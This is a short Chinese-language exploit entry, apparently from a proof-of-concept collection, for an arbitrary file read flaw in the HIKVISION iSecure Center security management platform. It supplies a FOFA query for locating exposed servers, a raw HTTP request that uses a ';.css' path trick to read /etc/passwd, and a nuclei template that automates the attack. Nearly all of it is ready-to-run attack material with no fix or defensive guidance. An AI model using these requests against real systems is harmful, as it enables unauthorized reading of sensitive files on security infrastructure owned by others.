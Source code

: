 ## 海康威视-综合安防管理平台-files-文件读取

HIKVISION iSecure Center综合安防管理平台是一套“集成化”、“智能化”的平台，通过接入视频监控、一卡通、停车场、报警检测等系统的设备。在其某接口处存在任意文件读取漏洞，攻击者可以读取系统任意敏感文件。

![4c21a71d9bf1158fb01d135407cc7937](../../images/4138463c-5aa9-4443-97b0-a021bfd9876a.png)

## fofa
```
综合安防管理平台
```

## poc
```
GET /lm/api/files;.css?link=/etc/passwd HTTP/1.1
Host: 
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
sec-ch-ua: "Google Chrome";v="117", "Chromium";v="117", "Not=A?Brand";v="24"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
```

## nuclei poc
```
id: hikvision-files-fileread

info:
  name: 海康威视-综合安防管理平台-files-文件读取
  author: hikvision-files-fileread
  severity: high

requests:
  - raw:
      - |
        GET /lm/api/files;.css?link=/etc/passwd HTTP/1.1
        Host: {{Hostname}}
        Connection: close
        Cache-Control: max-age=0
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

    matchers:
      - type: dsl
        dsl:
          - contains_all(all_headers,'attachment','fileName')

```
![](../../assets/20231230200200.png)
